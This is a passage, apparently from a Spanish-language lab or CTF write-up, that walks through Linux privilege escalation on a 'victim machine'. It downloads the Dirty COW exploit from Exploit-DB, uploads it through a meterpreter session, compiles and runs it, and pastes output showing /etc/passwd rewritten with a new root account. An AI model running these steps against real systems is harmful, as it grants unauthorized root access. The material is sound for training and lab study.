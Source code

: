 Esto nos dara una lista a parte de informacion de las diferentes vulnerabilidades que tiene el kernel actual, por lo que elegiremos una de ellas, en mi caso.

```
URL = https://www.exploit-db.com/exploits/40839

Download = https://www.exploit-db.com/download/40839
```

Una vez que nos lo hayamos descargado en nuestro host, nos lo pasaremos a la maquina victima.

```
Ctrl+z
y+ENTER
```

Y volveremos a nuestra shell de meterpreter para subir el archivo.

```shell
upload /Downloads/40839.c
```

Info:

```
[*] Uploading  : /Downloads/40839.c -> 40839.c
[*] Uploaded -1.00 B of 4.89 KiB (-0.02%): /Downloads/40839.c -> 40839.c
[*] Completed  : /Downloads/40839.c -> 40839.c
```

Ahora volveremos a la shell normal haciendo lo siguiente.

```shell
shell
/bin/bash -i
```

Ahora cambiaremos el nombre al archivo.

```shell
mv 40839.c dirty.c
```

Y despues lo compilaremos de la siguiente forma.

```shell
gcc -pthread dirty.c -o dirty -lcrypt
```

Y ahora lo ejecutaremos poniendo seguidamente la contarseña que queremos que se cree para el usuario con privilegios de `root`.

```shell
./dirty <NEW_PASS>
```

Info:

```
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 1234
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash

mmap: 7fe680afd000
ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password '1234'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
diseo@ubuntu:/tmp$ /etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 1234
Complete line:
firefart:fionu3giiS71.:0:0:pwned:/root:/bin/bash
```